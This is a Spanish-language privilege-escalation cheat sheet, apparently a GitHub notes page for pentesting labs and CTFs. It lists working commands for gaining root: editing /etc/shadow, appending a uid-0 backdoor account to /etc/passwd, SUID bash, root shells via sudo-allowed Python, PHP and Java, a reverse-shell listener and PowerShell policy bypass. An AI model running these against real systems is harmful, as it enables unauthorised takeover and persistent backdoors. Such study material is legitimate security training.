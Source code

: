 <h1 align="center">Escalada de privilegios</h1>

## **HERRAMIENTAS ÚTILES**

- **GTFOBins:** Un repositorio de técnicas de escalada de privilegios y ejecución de comandos utilizando binarios de Unix.

### **Comprobar Comandos Sudo**

`sudo -l`

### **Buscar Contraseñas en Archivos de Configuración**

`ls /var/www/html`
- Revistar archivos php y conf

### **Crontab**

Buscar en crontab archivos que se ejecuten como root y que podamos editar:

- `crontab -l`
- `ls /etc/cron\*`

**Enumerar Variables de Entorno**

El comando env muestra todas las variables de entorno de la shell. Podría incluir información sensible, como contraseñas:


### **Enumerar Información del Sistema**

Enumerar rutas interesantes:

`ls -lsaht /opt | /tmp | /var/tmp | /var/backups | /var/mail | /dev/shm`

Enumerar información del sistema para encontrar posibles vulnerabilidades:

- `uname -a`
- `cat /etc/\*-release`
- `file /bin/bash`

### **Permisos SUID**

Buscar archivos con permisos SUID:

`find / -perm /4000 2>/dev/null`

### **Buscar Archivos con Permisos de Escritura y lectura**

Buscar archivos y directorios que tienen permisos de escritura para todos los usuarios:

`find / -not -type l -perm -o+w 2>/dev/null`

###

### **Modificar /etc/shadow**

Si tienes permisos de escritura en /etc/shadow, puedes generar una nueva contraseña para root:

`openssl passwd -1 -salt abc password`

Reemplazar la entrada de root en /etc/shadow con la nueva contraseña.

### **Crear enlace simbólico**

Creando un enlace simbólico desde nuestro directorio de trabajo al de root:

`ln -s /root rooter`

Y ahora desde mi equipo intento leerla:

`curl <http://192.168.1.26:3333/jan/rooter/root.txt>`

### **Capabilities**

`/usr/sbin/getcap -r / 2>/dev/null`

Este comando recorrerá todos los archivos del sistema y mostrará sus capacidades, si las tienen. Se pueden explotar desde GTFObins en capabilities copiando en comando

### **Ver archivos con Nmap**

`nmap -iL \*ruta\*`

### **Ver si un archivo se esta ejecutando en el script de otro archivo (Tareas programadas)**

`grep -nri “/tmp/message” / 2>dev/null`

Busca de forma recursiva si en /usr hay algun script que mencione el archivo “/tmp/message”

### **Script para fuerza bruta al usuario root**

<https://github.com/d4t4s3c/suForce>

##

## **EJEMPLOS DE ESCALADA**

### **Escalada con Python**

Si tienes permisos de escritura en el script, edítalo para incluir una línea que proporcione una bash con privilegios de root.

- `import os`
- `os.system(“/bin/sh”)`

Si no puedes editar el script, puedes eliminarlo y crear uno nuevo con el mismo nombre, ejemplo:

<https://romabri.github.io/Library>

###

### **Escalada con grep y cut**

Si dispones de permisos como root en grep y cut haciendo sudo -l, puedes ver archivos que sólo root puede ver

### **Escalada con Java**

Si tienes permisos de root en Java:

1. Crear un archivo revershell.java que contenga la reverse shell.
2. Ejecutarlo con java como sudo

`sudo /usr/bin/java revershell.java`

1. Escuchar la conexión en la máquina local:

`nc -lvnp &lt;puerto&gt;`

### **Escalada con PHP**

Si puedes ejecutar PHP como otro usuario usando sudo, ejecuta el siguiente comando para abrir una terminal con el usuario indicado.

`sudo -u chocolate /usr/bin/php -r 'system("/bin/sh");`

![image](https://github.com/user-attachments/assets/29ead444-3a83-4584-ba0e-b824fe090d9e)


Si puedes ejecutar PHP como root, ejecuta el siguiente comando para conceder permisos SUID al bash. Cuando el bash se ejecute obtendrás una terminal con el usuario root

`echo '&lt;?php exec("chmod 4755 /bin/bash"); ?&gt;' > /opt/script.php`

##

### **Escalada con chown**

- `LFILE=/etc/passwd`
- `sudo chown $(id -un):$(id -gn) $LFILE`
- `openssl passwd hola123`
- `echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd`
- `su newroot`


## **AUTOMATIZAR ESCALADA EN WINDOWS**

### **PSPY64**

Es una herramienta diseñada para monitorear procesos y detectar configuraciones incorrectas que podrían permitir la escalada de privilegios en sistemas Windows.

<https://github.com/DominicBreuker/pspy>

### **LOCAL_EXPLOIT_SUGGESTER (metasploit)**

![image](https://github.com/user-attachments/assets/5deee4e3-d5bc-4d19-a563-2b4783a783a3)

Seleccionamos uno de ellos, en este caso ms16_014_wmi_recv_notif, rellenamos los campos y establecemos la sesion meterpreter con altos privilegios


También existe esta misma herramienta en github que contiene el manual de uso:

<https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### **PRIVESC CHECK**

Existe un script en PowerShell que enumera las credenciales de otros usuarios y posibles vías de escalada de privilegios.

Clonar repositorio:

<https://github.com/itm4n/PrivescCheck.git>

Transferir el repositorio clonado a la máquina Windows vulnerada y posicionarnos dentro de la carpeta clonada. Una vez ahí ejecutar el siguiente comando:

`powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"`

![image](https://github.com/user-attachments/assets/bfd3fdb0-ad3f-4423-afe3-306b1131bbd6)

## **AUTOMATIZAR ESCALADA EN LINUX**

### **LINPEAS**

Es una herramienta que busca en el sistema configuraciones incorrectas y vulnerabilidades que pueden permitir la escalada de privilegios.

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>

